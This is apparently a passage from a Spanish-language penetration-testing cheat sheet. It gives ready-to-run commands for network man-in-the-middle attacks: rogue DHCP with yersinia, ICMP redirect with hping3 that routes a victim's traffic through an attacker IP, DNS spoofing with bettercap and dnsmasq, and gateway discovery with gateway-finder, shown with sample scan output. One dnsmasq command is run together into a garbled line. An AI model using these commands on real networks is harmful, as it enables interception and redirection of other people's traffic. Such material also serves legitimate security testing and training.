El atacante configura todos los parámetros de red (GW, IP, DNS) del nuevo miembro de la red enviando respuestas DHCP falsas.

```bash
Ettercap
yersinia dhcp -attack 2 #More parameters are needed
```

### ARP Spoofing

Consulta la [sección anterior](./#arp-spoofing).

### ICMPRedirect

ICMP Redirect consiste en enviar un paquete ICMP tipo 1 código 5 que indica que el atacante es la mejor manera de alcanzar una IP. Luego, cuando la víctima quiera contactar la IP, enviará el paquete a través del atacante.

```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```

### DNS Spoofing

El atacante resolverá algunos (o todos) los dominios que la víctima solicite.

```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```

**Configurar propio DNS con dnsmasq**

```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```

### Puertas de enlace locales

A menudo existen múltiples rutas hacia sistemas y redes. Al crear una lista de direcciones MAC dentro de la red local, utiliza _gateway-finder.py_ para identificar hosts que soportan el reenvío de IPv4.

```
root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.

root@kali:~/gateway-finder# ./gateway-finder.py -f hosts.txt -i 209.85.227.99
gateway-finder v1.0 http://pentestmonkey.net/tools/gateway-finder
[+] Using interface eth0 (-I to change)
[+] Found 3 MAC addresses in hosts.txt
[+] We can ping 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
[+] We can reach TCP port 80 on 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
```
